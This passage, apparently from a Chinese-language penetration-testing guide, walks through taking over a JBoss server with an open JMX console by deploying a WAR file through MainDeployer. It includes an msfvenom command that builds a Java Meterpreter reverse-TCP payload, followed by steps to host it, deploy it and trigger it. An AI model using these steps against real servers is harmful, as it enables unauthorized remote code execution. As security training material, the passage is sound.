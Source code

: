 JMX 控制台是 JBoss 管理控制台，它提供组成服务器的 JMX MBean 的原始视图。它们可以提供有关正在运行的服务器的大量信息，并允许您修改其配置、启动和停止组件等

如果我们发现 JBoss 的开放实例具有未经验证的 JMX 控制台访问权限，我们可以使用`MainDeployer`选项将 shell 上传到服务器。这允许我们从 URL 获取 WAR 文件并将其部署到服务器上。JMX 控制台显示在以下屏幕截图中：

![](assets/da21be8d-8f8d-42a9-923a-0c5f1a44a8d0.png)

让我们实施以下利用步骤：

1.  在控制台页面上，搜索`MainDeployer`服务选项，如图所示：

![](assets/3b40d6fa-23e8-4864-8d47-c6ae46bc102f.png)

2.  单击该选项会将我们重定向到一个新页面，如图所示：

![](assets/9347d1f8-33e1-43ce-994d-a4e8518682ee.png)

3.  通过进一步向下滚动页面，我们将看到多个`deploy`方法。选择`URL Deploy`方法，这将允许我们从远程 URL 获取 WAR 文件：

![](assets/ccef5707-375f-4b50-9229-2fb75bd3e477.png)

4.  让我们使用以下命令生成基于战争的 Metasploit 负载：

```
Msfvenom -p java/meterpreter/reverse_tcp lhost=<Metasploit_Handler_IP> lport=<Metasploit_Handler_Port> -f war -o <filename>.war
```

5.  我们现在需要在 HTTP 服务器上托管 WAR 文件，并将 URL 粘贴到输入字段中，如图所示：

![](assets/6f90207a-c92b-435d-b963-ae52e389f404.png)

6.  让我们设置利用漏洞处理程序，如图所示：

![](assets/cf918cfe-c4ba-4ca3-b9dd-38ffb5f1dec0.png)

7.  成功调用后，我们将从服务器收到以下消息：

![](assets/9dba5cbf-d778-4ec8-b3e6-d192e8f23c6c.png)

我们的`s.war`有效载荷已部署。

8.  接下来，我们需要找到正确的 stager 名称，以便调用该文件。让我们解压缩 Metasploit 生成的文件，如图所示：

![](assets/4b56ef15-5785-4e95-93f8-94b83d0fd255.png)

我们在`web.xml`文件中找到 servlet 名称：

![](assets/f359e8a9-319e-462b-81ed-3a05cee2c4cd.png)

9.  让我们通过将 servlet 名称添加到 URL 来调用负载，如以下屏幕截图所示：

![](assets/46b190cd-4419-4691-bb2c-db1259a6d88b.png)

10.  输出将为空，但我们可以在 Metasploit 漏洞处理程序上检查 stager 请求，如图所示：

![](assets/5e887d77-945c-4ecc-a6e0-dde180f307a0.png)
